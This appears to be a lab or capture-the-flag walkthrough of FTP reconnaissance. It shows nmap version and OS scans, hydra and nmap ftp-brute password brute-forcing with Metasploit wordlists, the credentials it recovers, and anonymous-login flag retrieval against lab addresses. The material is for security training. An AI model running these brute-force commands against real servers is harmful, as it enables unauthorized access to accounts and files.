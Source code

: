 # FTP (File Transfer Protocol)

# FTP Server Reconnaissance Basics: A Step-by-Step Guide

This guide provides various commands to FTP reconnaisance basics.

### 1. Ping Command

Checks if the target system is reachable:
`ping [target IP]`

### 2. Nmap Command

Performs a network scan to identify open ports and services:
`nmap [target IP]`

### 3. Detailed Nmap Scan

Scans the FTP port (port 21) and identifies the software and operating system:
`nmap [target IP] -p 21 -sV -O`
_Port 21 = default FTP port. Port runs ProFTP 1.3.5a, OS = Linux 2.6.32_

### 4. FTP Client
### To get the admin flag, we go through following commands:
Connects to the FTP server of the target system:
`ftp [target IP]`

### 5. Hydra Command

Performs a brute-force attack to crack username and password:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] ftp`
_Tries usernames and common passwords._

### 6. FTP Login and File Download

Logs in with the found credentials and downloads a file:
`ftp [target IP], sysadmin, 654321`
After login:
`ls`
`get secret.txt`

### 7. List Directory Contents

Displays the contents of the current directory:
`ls`

### 8. Display File Contents

Displays the contents of the downloaded file:
`cat secret.txt`

### 9. Nmap Brute-Force Script

Creates a file with the username and performs a brute-force attack with nmap:
`echo "sysadmin" > users`
`cat users`
`nmap [target IP] --script ftp-brute --script-args userdb=/root/users -p 21`


Questions

    1. What is the version of FTP server?
    2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/        unix_passwords.txt       to check if any of these credentials work on the system. List all found credentials.
    3. Find the password of user “sysadmin” using nmap script.
    4. Find seven flags hidden on the server.


1. We run the following command to get info about the OS and services:
` nmap 192.132.3.3 -p 21 -sV`
**ProFTPD 1.3.5a**
2. We want to brute-force usernames and passwords using the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt    and the password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt. After that we wanna check if they work on our FTP service:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.132.3.3 ftp`
**We can login with all the credentials using following command:**
`ftp [target IP]`
3. To try bruteforcing with nmap, we use following command:
`nmap 192.132.3.3 --script ftp-brute --script-args userdb=/root/users -p 21`
**sysadmin:654321 - Valid credentials**
![grafik](https://github.com/user-attachments/assets/80eb1d5b-9dfb-4215-9e2d-64d79919259e)

### FTP Login

`ip a`
`ping [target IP]`
`nmap [target IP]`: port 21 open
`nmap [target IP] -p 21 -sV`: version: vsftpd 
`nmap [target IP] -p 21 --script ftp-anon`: Anonymous FTP login is allowed
`ftp [target IP]`: anonymous, password: none
`ls`
    ftp:`get flag`
    ftp: `bye`
`cat flag`



1. Find the version of vsftpd server.
2. Check whether anonymous login is allowed on the ftp server using nmap script.
3. Fetch the flag from FTP server.

We want to find out the version of the vsftpd server:
`nmap 192.158.73.3 -p 21 -sV`
**vsftpd 3.0.3**

After that we want to check if anonymous login is allowed on the ftp server using following nmap script:
`nmap 192.158.73.3 -p 21 --script ftp-anon`
**Anonymous login allowed**

So we login:
`ftp login`
and we get the flag.




